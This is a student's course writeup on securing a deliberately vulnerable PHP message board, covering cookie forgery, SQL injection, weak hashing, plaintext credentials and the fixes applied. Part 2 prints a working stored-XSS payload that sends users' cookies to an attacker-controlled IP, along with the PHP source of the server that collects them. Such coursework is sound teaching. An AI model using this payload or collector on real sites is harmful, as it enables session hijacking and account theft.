 # Project Writeup

Bradley Rosenfeld - COS342, 11/14/15

## Part 1.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. The passwords are not hashed with a strong algorithm and they are not salted resulting in duplication of hashes.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plantext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trival.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user.

5. No password scheme was implemented, users could submit anything as a password.

## Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

If you're on the Taylor University network, you can view the result of this attack by visiting [10.121.20.103/hackme-xss.php](http://10.121.20.103/hackme-xss.php)

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

The source code of the attacker server is as follows:

```
<?php
$secretFile = "/tmp/foo.txt";
if (isset($_GET['c'])) {
	$fh = fopen($secretFile, 'a') or die("can’t open file");	
	$stringData = $_GET['c']."\n";
	fwrite($fh, $stringData);
	fclose($fh);

	//Send an img
	header("Content-Type: image/png");
} else {
	header("Content-Type: text/plain");
	readfile($secretFile);
}
?>
```

